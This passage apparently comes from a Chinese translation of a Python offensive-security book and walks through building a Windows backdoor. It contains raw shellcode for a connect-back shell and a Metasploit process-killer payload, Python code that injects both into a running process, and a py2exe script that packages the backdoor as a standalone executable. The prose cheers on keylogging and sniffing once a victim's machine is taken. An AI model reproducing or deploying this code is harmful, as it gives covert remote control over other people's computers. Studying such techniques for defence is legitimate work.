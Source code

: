```py
    "\x63\x6d\x6a\x50\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3" \ 
    "\xaa\x95\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" \ 
    "\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51\x51\x51" \ 
    "\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05\xce\x53\xff\xd6" \
    "\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6\x79\xff\x75\x04\xff\xd6" \ 
    "\xff\x77\xfc\xff\xd0\x68\xef\xce\xe0\x60\x53\xff\xd6\xff\xd0" 
inject( pid, connect_back_shellcode )
#/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
#Size=159 Encoder=None http://metasploit.com */
our_pid = str( kernel32.GetCurrentProcessId() ) 
process_killer_shellcode = \
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \ 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \ 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \ 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \ 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \ 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \ 
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \ 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \ 
    "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \ 
    "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00" 
padding = 4 - ( len( our_pid ) )
replace_value = our_pid + ( "\x00" * padding ) 
replace_string= "\x41" * 4 
process_killer_shellcode = process_killer_shellcode.replace( replace_string, replace_value )
# Pop the process killing shellcode in 
inject( our_pid, process_killer_shellcode ) 
```

All right!后门程序通计算器(系统的 cacl.exe 有按钮和数字在上面)的 PID，将 shellcode 注入到进程里，然后通过第二个 shellcode 自我了断。这个后门综合了很多不同的技术。每 次重要目标系统中有人运行了计算器（当然你能够改成别的服务级别的文件，随系统启动）， 我们就能够取得机器的控制权。接下来就是键盘记录，嗅探数据包，任何你想干的，都去干 吧!!! 但是在这我们还疏忽了一点，不是每台机器都安装了 Python，他们为什么不用 Linux 呢？如果这样估计我也不用翻译这本数了，哈！别担心，我们有 py2exe，它能把 py 文件转 换成 exe 文件。

### 7.2.3 py2exe

py2exe 是一个非常方便的 Python 库，能够将 Python 脚本编译成完全独立的 Windows 执行程序。记得在下面的操作都是基于 Windows 平台，Linux 平台内置 Python。py2exe 安 装完成后，你就能够在脚本中使用他们了。在这之前先看看调用它们。

```py
#setup.py
# Backdoor builder
from distutils.core import setup 
import py2exe 
setup(
    console=['backdoor.py'],
    options = {'py2exe':{'bundle_files':1}}, 
    zipfile = None,
) 
```

很好很简单。仔细看看我们传入 setup 的函数。第一个，console 是我们要编译的 Python 脚本。 options 和 zipfile 参数设置为需要打包的 Python DLL 和所有别的依赖的库。这样我 们的后门就能在任何没有安装 python 的 windlws 系统上使用了。确保 my_debugger_defines.py, backdoor.py, 和 setup.py 文件在相同的目录下。在命令行下输入以下命令，编译脚本。
